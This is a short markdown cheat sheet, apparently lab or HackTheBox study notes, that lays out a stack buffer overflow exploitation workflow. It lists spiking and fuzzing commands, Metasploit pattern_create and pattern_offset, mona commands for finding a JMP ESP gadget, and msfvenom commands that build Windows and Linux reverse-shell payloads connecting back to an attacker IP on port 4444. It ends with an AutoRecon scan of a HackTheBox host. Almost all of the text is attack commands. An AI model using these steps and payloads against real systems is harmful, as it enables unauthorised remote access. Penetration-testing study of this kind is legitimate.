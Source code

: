 # Buffer Overflow
  
-Spike
  - `generic_send_tcp 192.168.174.1 31337 ~/Code/buffer-overflow/stats.spk 0 0`
-Fuzz
  - `~/Code/buffer-overflow/fuzzer.py`
-Generate unique pattern:
  - `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bufferlen>`
-Finding the offset
  - `~/Code/buffer-overflow/offset.py`
  - (1) `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <bufferlen> -q <EIP address>`
  - (1) `!mona findmsp`
-Confirm offset
  - `~/Code/buffer-overflow/overwrite_eip.py`
- Find badchars
  - `~/Code/buffer-overflow/badchars.py`
- Find Jump
  - `!mona modules`
  - `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb > JMP ESP`
  - (1) `!mona find -s "\xff\xe4" -m <unprotected module>`
  - (1) `!mona jmp -r ESP -m <unprotected module> / !mona jmp -r esp -cpb "<badchars>"`
- Exploit buffer overflow
  - (1) `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.174.128 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`
  - (1) `msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.174.128 LPORT=4444 -f c -b "\x00,\x20"`
  - `~/Code/buffer-overflow/exploit_buffer_overflow.py`

# Reocn
  - `python3 ~/Repositories/AutoRecon/autorecon.py 10.10.10.74 --single-target -o /root/Recon/HTB/Chatterbox/`
  
